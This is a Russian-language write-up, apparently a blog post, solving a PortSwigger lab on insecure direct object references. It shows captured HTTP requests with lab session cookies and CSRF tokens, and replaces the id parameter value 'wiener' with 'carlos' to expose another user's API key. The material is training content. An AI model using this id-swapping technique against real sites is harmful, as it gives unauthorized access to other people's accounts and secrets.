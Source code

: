 ```yaml
---
title: "User ID controlled by request parameter"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter"
classes: wide
---
```


Для решения лабы нужно получить `API` токен пользователя `carlos`. Для входа есть креды от учетной записи `wiener`:`peter`.

```
https://0a48009d04e7fa778098948800df006c.web-security-academy.net/
```

## Solution

Зайду в данную учетку. 

Ничего интересного не вижу, кроме функции изменения почты. Попробую это сделать:

```http
POST /my-account/change-email HTTP/2
Host: 0a48009d04e7fa778098948800df006c.web-security-academy.net
Cookie: session=Ps1zcdu7m7TTe4808VPrxUKDXSuWKRn9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a48009d04e7fa778098948800df006c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=mail%40mail.com&csrf=ZtSk4EzKiCJQNaeRPb3EMaBcu3GtKrPr
```

Попробую изменить значение в теле запроса:

```http
POST /my-account/change-email HTTP/2
Host: 0a48009d04e7fa778098948800df006c.web-security-academy.net
Cookie: session=Ps1zcdu7m7TTe4808VPrxUKDXSuWKRn9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: https://0a48009d04e7fa778098948800df006c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=new_name&csrf=Rl2U5qcaKmFk73pWIeHEhEvMWI8XpJqG
```

Запрос обработан, но ничего путного не вышло. Попробую сделать еще проще: в `URL` указано имя `wiener` в параметре `id`, подставлю `carlos`)

```
https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=carlos
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter/1.png){: height="200" .align-center}

Сдам `API` ключ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter/2.png){: height="200" .align-center}
